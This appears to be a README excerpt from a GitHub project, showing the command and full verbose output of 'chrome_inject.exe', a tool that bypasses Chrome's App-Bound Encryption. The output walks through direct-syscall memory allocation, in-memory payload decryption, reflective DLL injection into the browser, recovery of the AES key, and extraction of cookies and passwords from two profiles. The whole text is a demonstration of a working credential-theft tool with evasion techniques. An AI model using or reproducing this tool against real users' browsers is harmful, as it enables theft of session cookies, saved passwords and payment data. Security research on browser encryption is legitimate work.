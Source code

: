 #### Verbose

```bash
PS> .\chrome_inject.exe --verbose --start-browser chrome
------------------------------------------------
|  Chrome App-Bound Encryption Decryption      |
|  Direct Syscall Injection Engine             |
|  x64 & ARM64 | Cookies, Passwords, Payments  |
|  v0.13.0 by @xaitax                          |
------------------------------------------------

[#] [Syscalls] Found and sorted 489 Zw* functions.
[#] [Syscalls] Successfully initialized all direct syscall stubs.
[#] [Syscalls]   - NtAllocateVirtualMemory (SSN: 24) -> Gadget: 0x7ffacdfd1190
[#] Named pipe server created: \\.\pipe\9ec94252-33c6-4c39-b32b-8234e9c9f957
[#] Snapshotting processes for chrome.exe
[*] Chrome not running, launching...
[#] Waiting 3s for browser to initialize...
[+] Chrome (v. 138.0.7204.100) launched w/ PID 25984
[#] Architecture match: Injector=ARM64, Target=ARM64
[#] Loading payload DLL from embedded resource.
[#] Successfully loaded embedded resource 'PAYLOAD_DLL'. Size: 1366016 bytes.
[#] Decrypting payload in-memory with ChaCha20...
[#] Payload decrypted.
[#] Calling NtAllocateVirtualMemory_syscall...
[#] NtAllocateVirtualMemory_syscall returned 0x0
[#] Calling NtWriteVirtualMemory_syscall...
[#] NtWriteVirtualMemory_syscall returned 0x0
[#] Calling RDI::Inject()...
[#] RDI: ReflectiveLoader file offset: 0x13bc8
[#] RDI: Memory allocated in target at 0x22b9d310000
[#] RDI: Payload written to target memory. Bytes written: 1366016
[#] RDI: Memory permissions changed from 0x64 to PAGE_EXECUTE_READ (0x32).
[#] RDI: Calculated remote ReflectiveLoader address: 0x22b9d323bc8
[#] RDI: Waiting for remote ReflectiveLoader thread...
[#] RDI::Inject returned true
[#] Reflective DLL Injection succeeded.
[#] Waiting for DLL to connect to named pipe...
[#] DLL connected to named pipe.
[#] Sent message to pipe: VERBOSE_TRUE
[#] Sent message to pipe: C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output
[*] Waiting for DLL (Pipe: \\.\pipe\9ec94252-33c6-4c39-b32b-8234e9c9f957)

[*] Decryption process started for Chrome
[+] COM library initialized (APARTMENTTHREADED).
[+] Reading Local State file: C:\Users\ah\AppData\Local\Google\Chrome\User Data\Local State
[+] Decrypted AES Key: 3fa14dc988a34c85bdb872159b739634cb7e56f8e34449c1494297b9b629d094
[*] Processing profile: Default
     [*] 371 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\cookies.txt
     [*] 1 passwords extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\passwords.txt
[*] Processing profile: Profile 1
     [*] 27 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Profile 1\cookies.txt
     [*] 1 passwords extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Profile 1\passwords.txt
[*] Decryption process finished.
[#] DLL completion signal received.

[+] DLL signaled completion or pipe interaction ended.
[#] Terminating browser PID=25984 because injector started it.
[*] Chrome terminated by injector.
```